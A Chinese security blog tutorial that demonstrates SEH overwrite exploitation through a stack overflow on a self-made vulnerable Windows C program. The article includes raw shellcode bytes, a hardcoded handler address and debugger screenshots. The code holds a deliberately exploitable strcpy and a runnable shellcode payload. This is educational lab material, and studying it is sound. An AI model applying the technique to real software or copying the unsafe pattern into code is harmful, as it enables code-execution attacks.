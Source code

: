 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ylnTR_sxqN0jH8Wt68Qmrg)

![](https://mmbiz.qpic.cn/mmbiz_png/RKmmCHT73fdQQ2nv9rDeddIlJk71QWHcslefZEPQxvuVzXNn9ZlY6dicKOiaJQBXNFYkbHtUsOw0duN5FIUuItSA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_svg/jRoggJ2RF3BHibojhJQ8jmNderYtvTh8HkyBLp8nlK1B262IP84ZEic7el5hZ1rSy2RRjsGUQxdSGiaPFGG66pA8FnblLMZNWzA/640?wx_fmt=svg)

![](https://mmbiz.qpic.cn/mmbiz_svg/jJSbu4Te5ib8dv7tckM3eiau36jYD6r6JzUadPhLfh5pBPkc7MXuibrLRyxucMXeHZMwuc8YJbmickBgMbiaNAGWJ6u8K69OmxYXp/640?wx_fmt=svg)

文章介绍

![](https://mmbiz.qpic.cn/mmbiz_svg/Iic9WLWEQMg188DeVtNKRm1TKjRbm9lMO1Sn0Nxp4ub3M6m1ib29Pg42QpAsl2KtUhGicZIM8mBLAW0BTviaOLUdwnDUBNpqgNlQ/640?wx_fmt=svg)

![](https://mmbiz.qpic.cn/mmbiz_svg/Ib5852jAyb9xjIOSr4AGdwHrOa5leGNTnFwkWXvaOsQMx7bVxQiabjjSeicggObSK25jW1K5mG6aNZia8VJuiaarScZkKOYlJP4a/640?wx_fmt=svg)

  

  

 **本文利用 SEH 异常结构体，通过溢出实现执行 shellcode**

1.SEH 简介  

![](https://mmbiz.qpic.cn/mmbiz_svg/Iic9WLWEQMg188DeVtNKRm1TKjRbm9lMO1Sn0Nxp4ub3M6m1ib29Pg42QpAsl2KtUhGicZIM8mBLAW0BTviaOLUdwnDUBNpqgNlQ/640?wx_fmt=svg)

![](https://mmbiz.qpic.cn/mmbiz_svg/Ib5852jAyb9xjIOSr4AGdwHrOa5leGNTnFwkWXvaOsQMx7bVxQiabjjSeicggObSK25jW1K5mG6aNZia8VJuiaarScZkKOYlJP4a/640?wx_fmt=svg)

  

  

**这里直接看如下图即可。**  

![](https://mmbiz.qpic.cn/mmbiz_png/8miblt1VEWywiaJCkziaQLQSQrBa9qJFWQJHlht79M6l4WRtYkIp0X7udRD4dPykPiaotdJw7RgAdexEYh7iamKiacaQ/640?wx_fmt=png)

    看完如上 SEH 介绍之后，接下来简单说一下 SEH 溢出

![](https://mmbiz.qpic.cn/mmbiz_png/8miblt1VEWywiaJCkziaQLQSQrBa9qJFWQJYVXvEicBUkwiartCjKWQuYEEfS3yJLE6v7rLrjeibN9u6kQvPFfBOY87g/640?wx_fmt=png)

2. 通过栈溢出利用 SEH

![](https://mmbiz.qpic.cn/mmbiz_svg/Iic9WLWEQMg188DeVtNKRm1TKjRbm9lMO1Sn0Nxp4ub3M6m1ib29Pg42QpAsl2KtUhGicZIM8mBLAW0BTviaOLUdwnDUBNpqgNlQ/640?wx_fmt=svg)

![](https://mmbiz.qpic.cn/mmbiz_svg/Ib5852jAyb9xjIOSr4AGdwHrOa5leGNTnFwkWXvaOsQMx7bVxQiabjjSeicggObSK25jW1K5mG6aNZia8VJuiaarScZkKOYlJP4a/640?wx_fmt=svg)

  

  

    首先看一下下方代码, 其实漏洞点还在 strcpy 函数，将 shellcode 拷贝到 buf，后续    zero=zero/0; 肯定是会触发异常，而__except 肯定是会去处理异常。

这里处理异常的话，寻找的是最近的 SEH。

```
#include <windows.h>
char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" 
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53" 
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B" 
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95" 
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59" 
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A" 
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75" 
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03" 
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB" 
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50" 
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90" 
"\x90\x90\x90\x90\x98\xFE\x12\x00"; 
void exp(){
printf("error");
getchar();
ExitProcess(1);
}
void test(char* input){
  printf("111");
  __asm int 3;
  char buf[200];
  int zero=0;
  __try{
    strcpy(buf,input);
    zero = 4/zero;
  }
  __except(exp()){
  
  }
}
int main(int argc, char* argv[])
{
  printf("%d",sizeof(shellcode));
  test(shellcode);
  return 0;
}
```

3.OD 分析  

![](https://mmbiz.qpic.cn/mmbiz_svg/Iic9WLWEQMg188DeVtNKRm1TKjRbm9lMO1Sn0Nxp4ub3M6m1ib29Pg42QpAsl2KtUhGicZIM8mBLAW0BTviaOLUdwnDUBNpqgNlQ/640?wx_fmt=svg)

![](https://mmbiz.qpic.cn/mmbiz_svg/Ib5852jAyb9xjIOSr4AGdwHrOa5leGNTnFwkWXvaOsQMx7bVxQiabjjSeicggObSK25jW1K5mG6aNZia8VJuiaarScZkKOYlJP4a/640?wx_fmt=svg)

  

  

当执行完 strcpy 后，看一下堆栈情况, E0 处就是 shellcode 的起始位置了，因为 shellcode 肯定是不足 200 个字节的，所以用 90 填充。

![](https://mmbiz.qpic.cn/mmbiz_png/8miblt1VEWywiaJCkziaQLQSQrBa9qJFWQJJuEPfT4kvH9x007bsd6Pokyx4hNImhmjwgZ5J5UEc6UgzbnNStdRfw/640?wx_fmt=png)

    继续看 SEH 的位置，SEH 就在 EBP 附近，所以将其改为 (12FE98)shellcode 地址即可。

![](https://mmbiz.qpic.cn/mmbiz_png/8miblt1VEWywiaJCkziaQLQSQrBa9qJFWQJ8KmYNGDPpUdkYxTThHQl3ZPAL7bbksicgHn03UeX6hR3uZcl13tKiaFA/640?wx_fmt=png)

4. 运行成功

![](https://mmbiz.qpic.cn/mmbiz_svg/Iic9WLWEQMg188DeVtNKRm1TKjRbm9lMO1Sn0Nxp4ub3M6m1ib29Pg42QpAsl2KtUhGicZIM8mBLAW0BTviaOLUdwnDUBNpqgNlQ/640?wx_fmt=svg)

![](https://mmbiz.qpic.cn/mmbiz_svg/Ib5852jAyb9xjIOSr4AGdwHrOa5leGNTnFwkWXvaOsQMx7bVxQiabjjSeicggObSK25jW1K5mG6aNZia8VJuiaarScZkKOYlJP4a/640?wx_fmt=svg)

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/8miblt1VEWywiaJCkziaQLQSQrBa9qJFWQJ8ZrOyypUIJ8YVHLYNjQzkzHz2L3ouDagDVxyqibQEHJcyxbfH2LoMAw/640?wx_fmt=png)

关注公众号吧~~ 下方扫一扫

![](https://mmbiz.qpic.cn/mmbiz_svg/Iic9WLWEQMg188DeVtNKRm1TKjRbm9lMO1Sn0Nxp4ub3M6m1ib29Pg42QpAsl2KtUhGicZIM8mBLAW0BTviaOLUdwnDUBNpqgNlQ/640?wx_fmt=svg)

![](https://mmbiz.qpic.cn/mmbiz_svg/Ib5852jAyb9xjIOSr4AGdwHrOa5leGNTnFwkWXvaOsQMx7bVxQiabjjSeicggObSK25jW1K5mG6aNZia8VJuiaarScZkKOYlJP4a/640?wx_fmt=svg)

  

  

微信关注 “安全族”，长期致力于安全研究

![](https://mmbiz.qpic.cn/mmbiz_jpg/8miblt1VEWywiaJCkziaQLQSQrBa9qJFWQJzrIOpB7giayjMZrEkX7viaFTLRwGnsRUDcoS9jgnDUtiakRODpzeVTBZQ/640?wx_fmt=jpeg)